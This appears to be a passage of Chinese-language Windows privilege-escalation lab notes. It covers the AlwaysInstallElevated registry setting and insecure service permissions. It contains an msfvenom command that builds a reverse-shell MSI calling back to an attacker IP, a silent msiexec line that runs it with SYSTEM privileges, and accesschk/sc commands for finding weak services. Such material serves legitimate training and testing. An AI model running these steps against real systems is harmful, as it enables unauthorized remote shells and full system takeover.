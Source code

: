 在注册表中查询AlwaysInstallElevated项：

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevatedreg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

请注意，两个键都设置为1（0x1）。

在Kali上，使用msfvenom生成反向外壳Windows Installer（reverse.msi）。 相应地更新LHOST IP地址：

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

将reverse.msi文件传输到Windows上的C：\ PrivEsc目录（使用以前的SMB服务器方法）。

在Kali上启动侦听器，然后运行安装程序以使用SYSTEM特权触发运行反向外壳程序：

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

###### 服务权限不安全

使用accesschk.exe来检查“ xxx”服务上“userA”帐户的权限：

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv userA xxx
```

请注意，“用户”帐户有权更改服务配置（SERVICE_CHANGE_CONFIG）。

![image-20200712105347031](assets/8.提权.assets/image-20200712105347031.png)

查询服务，并注意它以SYSTEM特权（SERVICE_START_NAME）运行：

```
sc qc xxx
```

![image-20200712105418355](assets/8.提权.assets/image-20200712105418355.png)
